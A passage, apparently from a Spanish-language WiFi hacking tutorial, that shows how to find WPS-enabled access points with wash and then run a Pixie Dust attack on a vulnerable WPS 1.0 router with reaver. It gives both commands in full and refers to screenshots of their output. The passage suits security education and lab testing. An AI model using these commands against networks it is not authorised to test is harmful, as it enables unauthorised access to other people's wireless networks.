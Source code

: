 Para detectar los puntos de acceso con **WPS** activado podemos hacerlo con **wash**, y las herramientas usadas para la explotación son **reaver**, **pixiewps** y **bully** entre otras.

> Uso de **wash** para detectar APs
```sh
wash -2 -a -s -i wlan0mon
```

En mi caso veo estas redes:

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/wifi/wifi-course9.png" alt="pic">

Si revisamos la columna que dice **WPS**, vemos que algunos puntos de acceso no lo tienen (deshabilitado), por lo que no serviría de nada intentarlo. Otros tienen **2.0** que también es seguro, puesto que es la versión moderna, y otro AP tiene **1.0** por lo que es potencialmente vulnerable, así que vamos a ver cómo explotarlo

> Comando para realizar el ataque
```sh
reaver -i wlan0mon -c <canal> -b <bssid> -K 1 -N -v
```

El parámetro **"-K"** se añade para realizar el ataque **Pixie Dust**, deberías ver algo como esto:

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/wifi/wifi-course20.png" alt="pic">
